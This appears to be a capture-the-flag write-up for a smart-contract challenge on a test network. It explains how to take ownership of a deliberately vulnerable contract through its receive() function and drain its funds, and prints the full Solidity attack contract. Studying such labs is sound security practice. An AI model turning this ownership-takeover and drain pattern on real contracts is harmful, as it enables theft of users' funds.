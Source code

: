 Level 1
==========================================================================================================================================

Deployment transaction: https://goerli.etherscan.io/tx/0x3518fe01dfc4ee56725311f18f048eab90f7229a9375eb289335e5cebf6a7f86
Submission transaction: https://goerli.etherscan.io/tx/0xccc14269f191440a72a09ba47a71a7c4e77f6861f257f279516c8690231c5a49

-------
This challenge's task is to aquire contract ownership then withdraw all funds from it. 
The target contract does have a receive() function, an alternative to fallback functions that only gets executed when a contract receives Ether. 
To access the receive function, though, first we need to contribute to the contract. We do this by transfering any amount smaller than 0.001 Ether.
After that, we can push the attack, by sending any amount of ether. I opted to use the call low-level function, as it returns booleans upon succesfull transfers.
If it's successful, we go forward to the withdraw function call and finish the script.

#### Exploit contract:

```
    interface Fallback{
    function contribute() external payable;
    function getContribution() external view returns(uint);
    function withdraw () external;
}

contract fallbackAttack {
    address private target;

    constructor (address _target)  payable {
        target = _target;
    }

    function contribute() payable external {
        Fallback(target).contribute{value:  msg.value}();
        
    }

    function claimOwnership() payable external {
        (bool sent, bytes memory data) = target.call{value:  msg.value}("");
        require (sent, "E1");
  
        
    }

    function withdraw() payable external {
        Fallback(target).withdraw();
        
    }
}

```
[Claim ownership tx]('https://goerli.etherscan.io/tx/0xecfc69941b1241e7bb967b968b6ae03808826c38e9c1e38b705553ead4078687')

I spent over an hour debugging only to find out I spotted the receive function at the target's contract, but didn't actually implement any fallback function of my own. Lesson learned hahaha.



